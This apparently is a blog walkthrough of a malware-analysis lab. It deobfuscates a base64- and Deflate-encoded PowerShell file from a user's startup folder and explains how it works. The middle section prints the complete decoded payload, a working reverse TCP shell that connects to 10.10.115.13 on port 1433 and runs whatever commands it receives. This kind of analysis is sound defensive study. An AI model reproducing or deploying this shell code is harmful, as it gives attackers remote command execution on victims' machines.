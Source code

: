 ```yaml
---
title: "PowerShell"
classes: wide
header:
  teaser: /assets/images/Tutorials/PS-Walk_Through/path.jpg
ribbon: Green
description: "Obfuscated PowerShell walk-through..."
categories:
 - Tutorials
toc: true
---
```



## Scenario
Analyst!

We found this in a startup folder on a user's host. Sheesh.

This thing makes my brain hurt just by looking at it. Can you figure this out for us, please?

Thanks,

IR Team

---
## file investigation

At first look, I found the lab provides a zip file and a Readme file where the scenario is written. On extracting the file and opening it in VSCode, I found that it seemed like **PowerShell code** so changed the extension to ps1.

![FL](/assets/images/Tutorials/PS-Walk_Through/FL.png)

As you can see the iEx command means to invoke what is coming next and the pipe which makes sense that the code has two parts.

## Deobfuscation
let's break the code. `iEx(nEW-ObJECt  Io.CoMpRESSiOn.defLaTEstReam([iO.memoRYStREam][sYsteM.coNvert]::FROmbaSe64StRiNG` this part has the invoce instruction but what shall be invoced?!!
If you look from a good perspective you will find that this line performs the **Deobfuscation**. First `[system.convert]::FROmbaSe64StRiNG` retrieves the string from B64 then `[io.memoryStream]` creates a new MemoryStream object in which the decoded byte array will be stored. At last `new-Object io.compression.deflateStream` creates a new DeflateStream object used to decompress data that has been compressed using the Deflate algorithm. so it would be really easy to decode the strange part leave it now.
I would prefer to have a look at what resides after the pipe `% {nEW-ObJECt SYsteM.Io.strEAmReAder($_,[SysTEm.TExT.eNCoDIng]::aSCIi) }| % { $_.reaDtoEnD()}` that simply will read data from a stream and outputs the entire content as a string.
So now we need to know what is the stream, For that mission, I would try PowerShell itself but I must at first remove the invoke `iEx` and then store the rest script in the new var.

![FR](/assets/images/Tutorials/PS-Walk_Through/fr.png)

As long as there is no error, we are good ;). So let's see what has been stored in that var.

![content](/assets/images/Tutorials/PS-Walk_Through/content.png)

that's a piece of good news we found our destination.

```powershell

########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
 $ip = "10.10.115.13"
 $port = 1433
 $client = New-Object Net.Sockets.TcpClient($ip, $port);
 $stream = $client.GetStream();
 $buffer = New-Object Byte[] 1024;
 $encoding = New-Object Text.AsciiEncoding;
 $writer = New-Object IO.StreamWriter($stream);
 $writer.AutoFlush = $true;
 $bytes = 0;
 do {
 $writer.Write("PS>");
 do {
 $bytes = $stream.Read($buffer, 0, $buffer.Length);
 if ($bytes -gt 0) {
 $data = $data + $encoding.GetString($buffer, 0, $bytes);
 }
 } while ($stream.DataAvailable);
 if ($bytes -gt 0) {
 $data = $data.Trim();
 if ($data.Length -gt 0) {
 try {
 $result = Invoke-Expression -Command $data 2>&1 | Out-String;
 } catch {
 $result = $_.Exception | Out-String;
 }
 Clear-Variable -Name "data";
 $length = $result.Length;
 if ($length -gt 0) {
 $count = 0;
 do {
 if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
 $writer.Write($result.substring($count, $bytes));
 $count += $bytes;
 $length -= $bytes;
 } while ($length -gt 0);
 Clear-Variable -Name "result";
 }
 }
 }
 } while ($bytes -gt 0);
} catch {
 $_.Exception.InnerException.Message;
} finally {
 if ($writer -ne $null) {
 $writer.Close();
 $writer.Dispose();
 Clear-Variable -Name "writer";
 }
 if ($stream -ne $null) {
 $stream.Close();
 $stream.Dispose();
 Clear-Variable -Name "stream";
 }
 if ($client -ne $null) {
 $client.Close();
 $client.Dispose();
 Clear-Variable -Name "client";
 }
 if ($buffer -ne $null) {
 $buffer.Clear();
 Clear-Variable -Name "buffer";
 }
 if ($result -ne $null) {
 Clear-Variable -Name "result";
 }
 if ($data -ne $null) {
 Clear-Variable -Name "data";
 }
 [System.GC]::Collect();
}
```
## Code illustration

To understand this let's break it into small parts, the code has four parts:

1- Script Information Block: The initial block is a comment section providing metadata about the script such as version, author, GitHub repository, and donation address.

2- Variable Initialization: $client, $stream, $buffer, $writer, $data, and $result are initialized to $null

3- Try Catch Block:
that's the most interesting block where the script tries to establish a TCP connection with C2.
first set port and ip `10.10.115.13 : 1433` then establish TCP connection:
- $client is created as a new TCP client connecting to the specified IP and port.
- $stream is obtained from the TCP client to facilitate data transmission.
- $buffer is a byte array of size 1024 to store incoming data.
- $encoding is set to ASCII encoding.
- $writer is an IO.StreamWriter for writing data to the stream with AutoFlush set to $true.
after that the script enters a do loop which continually prompts the remote user with "PS>" and waits for commands, reads incoming data from the stream into the buffer until no more data is available and converts the byte data to a string using ASCII encoding and appends it to **$data**.
after that enters the inner loop, if $data is not empty, it attempts to execute the PowerShell command using Invoke-Expression, captures the output or exception into $result and finally clears $data. Of course, if there is an exception that is where the catch comes to act.

4- Final Block: finally, loses and disposes of the writer, stream, client, and clears all variables and Forces garbage collection with  `[System.GC]::Collect()`.

## Conclusion

In this investigation, we analyzed an obfuscated PowerShell script found in a user's startup folder. The script, once deobfuscated, revealed itself as a PowerShell reverse TCP script by Ivan Sincek, designed to allow remote command execution on the compromised host.

### Key Findings
Obfuscation:
The script uses base64 decoding and Deflate compression to hide its true function.
Deobfuscation revealed the script's purpose and content.

Functionality:
Establishes a TCP connection to a remote IP (10.10.115.13) on port 1433.
Reads commands from the attacker, executes them and sends back the results.

**Code Structure:**

Initialization: 
Sets up variables and TCP connection.
Command Execution Loop: Continuously reads and executes remote commands.
Cleanup: Handles exceptions and disposes of resources.

## Tools
- VSCode
- Cmder

#### Written by

## *Karim Gomaa*
